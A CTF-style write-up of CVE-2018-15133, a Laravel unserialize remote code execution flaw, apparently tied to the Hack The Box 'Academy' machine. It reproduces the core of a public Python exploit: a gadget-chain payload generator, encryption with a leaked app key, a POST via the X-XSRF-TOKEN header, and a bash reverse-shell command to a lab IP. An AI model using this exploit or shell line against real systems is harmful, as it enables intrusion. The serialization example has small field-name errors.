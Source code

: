 ```yaml
---
description: >-
  In Laravel Framework through 5.5.40 and 5.6.x through 5.6.29, remote code
  execution might occur.
---
```


# CVE-2018-15133

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

As a result of an unserialize call on a potentially untrusted X-XSRF-TOKEN value. This involves the decrypt method in Illuminate/Encryption/Encrypter.php and PendingBroadcast in gadgetchains/Laravel/RCE/3/chain.php in phpggc.&#x20;

The attacker must know the application key, which normally would never occur, but could happen if the attacker previously had privileged access or successfully accomplished a previous attack.

***

Mitre CVE: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133)

This CVE can be found in: [https://www.hackthebox.com/machines/academy](https://www.hackthebox.com/machines/academy)

Metasploit module: [https://www.exploit-db.com/exploits/47129](https://www.exploit-db.com/exploits/47129)

Python script: [https://github.com/aljavier/exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133?tab=readme-ov-file)

***

### What is unserialize or deserialization?

First of all, serialization is the process of converting an object from memory into a stream of bytes that may be stored and restored later on. For example a python dictionary can be serialized into a stream of bytes.&#x20;

{% hint style="info" %}
A stream of bytes is simply a sequence of bytes, one after the other, it is 8 bits composed of 1s and 0s. It's like a continuous flow of data. It can be text, images, audio or executables.
{% endhint %}

So now converting that stream of bytes back into the original python dictionary is called deserialization or unserializing.&#x20;

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption><p>source: GeeksforGeeks</p></figcaption></figure>

### What is the purpose of serialization:

* Data storage: Save the state of an object or data structure to a file or database.
* Data transmission: Serialized data can be sent over a network or between different systems.

#### Example using a Python object.

```python
class Car:
    def __init__(self, brand, year):
        self.brand = brand
        self.year = year
```

Serialization of the Car class to JSON.

```python
{"name": "BMW", "year": 2024}
```

Now taking the JSON and deserializing it back into the Car object.

```python
json_data = '{"brand": "BMW", "year": 2024}'
person_object = json.loads(json_data)
# Resulting Python object: {'name': 'BMW', 'age': 2024}
```

## RCE Laravel&#x20;

We can run any code we want via the `HTTP X-XSRF-TOKEN` header because it makes an insecure unserialize call to `Illuminate/Encryption/Encrypter.php`

Laravel sessions are JSON objects, and in Laraval the `Encrypter.php` file generates a `iv` and `value` using OpenSSL and serializes them before returning JSON encoded object as the output.

<details>

<summary>Encrypt function</summary>

<pre class="language-php"><code class="lang-php">public function encrypt($value, $serialize = true)
{
    $iv = random_bytes(openssl_cipher_iv_length($this->cipher));
    $value = \openssl_encrypt(
        $serialize ? serialize($value) : $value,
        $this->cipher, $this->key, 0, $iv
    );
<strong>    if ($value === false) {
</strong>        throw new EncryptException('Could not encrypt the data.');
    }
    $mac = $this->hash($iv = base64_encode($iv), $value);
    $json = json_encode(compact('iv', 'value', 'mac'));
    
    if (json_last_error() !== JSON_ERROR_NONE) {
        throw new EncryptException('Could not encrypt the data.');
    }
    return base64_encode($json);
}
</code></pre>

</details>

The other function in Ecrypter.php is decrypt where its getting the iv and value to decrypt data before deserializing the decrypted variable. When providing a valid JSON object it wil try to unserialize it and execute commands.&#x20;

<details>

<summary>Decrypt function</summary>

```php
public function decrypt($payload, $unserialize = true)
{
$payload = $this->getJsonPayload($payload);
$iv = base64_decode($payload['iv']);
$decrypted = \openssl_decrypt(
$payload['value'], $this->cipher, $this->key, 0, $iv
);
if ($decrypted === false) {
throw new DecryptException('Could not decrypt the data.');
}
return $unserialize ? unserialize($decrypted) : $decrypted;
}
```

</details>

{% hint style="info" %}
In short: The vulnerabilty is in the `decrypt` function's unserialization process. By providing a valid JSON structure, the function assumes the data is safe to unserialize, even if it contains malicious code, resulting in RCE.
{% endhint %}

### The exploit

You can find the python script here: [exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py). The 3 functions that execute the exploit are generate\_payload, encrypt and exploit.

#### generate\_payload

Function will encode data base64 and assign to `value` . Decodes base64 leaked API key and add is to `key`.

```python
def generate_payload(cmd, key, method=1):
# Porting phpgcc thing for Laravel RCE php objects - code mostly borrowed from Metasploit's exploit
if method == 1: # Laravel RCE1
payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:
{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:15:"Faker\\Generator":1:{s:13:"' +
"\x00" + '*' + "\x00" + 'formatters";a:1:{s:8:"dispatch";s:6:"system";}}s:8:"' +
"\x00" + '*' + "\x00" + 'event";s:' + str(len(cmd)) + ':"' + cmd + '";}'
<SNIP>
    value = base64.b64encode(payload_decoded.encode()).decode('utf-8')
    key = base64.b64decode(key)
    return encrypt(value, key)
```

encrypt

This function uses cipher to encrypt `mac`, `vi` and `value`. Its then passed in JSON format and base64 encoded as `payload_encoded`.

```python
def encrypt(text, key):
    cipher = AES.new(key,AES.MODE_CBC)
    value = cipher.encrypt(pad(base64.b64decode(text), AES.block_size))
    payload = base64.b64encode(value)
    iv_base64 = base64.b64encode(cipher.iv)
    hashed_mac = hmac.new(key, iv_base64 + payload, sha256).hexdigest()
    iv_base64 = iv_base64.decode('utf-8')
    payload = payload.decode('utf-8')
    data = { 'iv': iv_base64, 'value': payload, 'mac': hashed_mac}
    json_data = json.dumps(data)
    payload_encoded = base64.b64encode(json_data.encode()).decode('utf-8')
    return payload_encoded
```

exploit

Is making a POST request and passing the payload into the `X-XSRF-TOKEN` header. They payload is made of cmd, api\_key and method.&#x20;

<pre class="language-python"><code class="lang-python">def exploit(url, api_key, cmd, method=1):
<strong>    payload = generate_payload(cmd, api_key, method)
</strong>    return requests.post(url,headers={'X-XSRF-TOKEN': payload})
</code></pre>

Running the python script gives a reverse shell.

```bash
$ python3 laravel.py -c "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.9/8888 0>&1'" http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= 
```

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>





